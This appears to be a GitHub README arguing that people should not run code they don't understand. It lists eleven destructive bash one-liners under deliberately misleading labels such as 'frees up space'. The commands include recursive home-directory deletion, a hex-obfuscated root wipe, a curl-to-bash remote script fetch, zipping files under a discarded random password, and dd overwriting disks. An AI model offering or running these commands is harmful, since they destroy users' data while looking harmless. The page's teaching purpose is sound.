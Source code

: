 # My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does.\
My small example of code that can have unintended results

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplies document syntax: 

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space:

``` bash
du ~/ | grep -o '/.*' | xargs rm -r --
```

C. Relinks your files to improve efficentcy:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space:

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know:

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes:

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files:

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
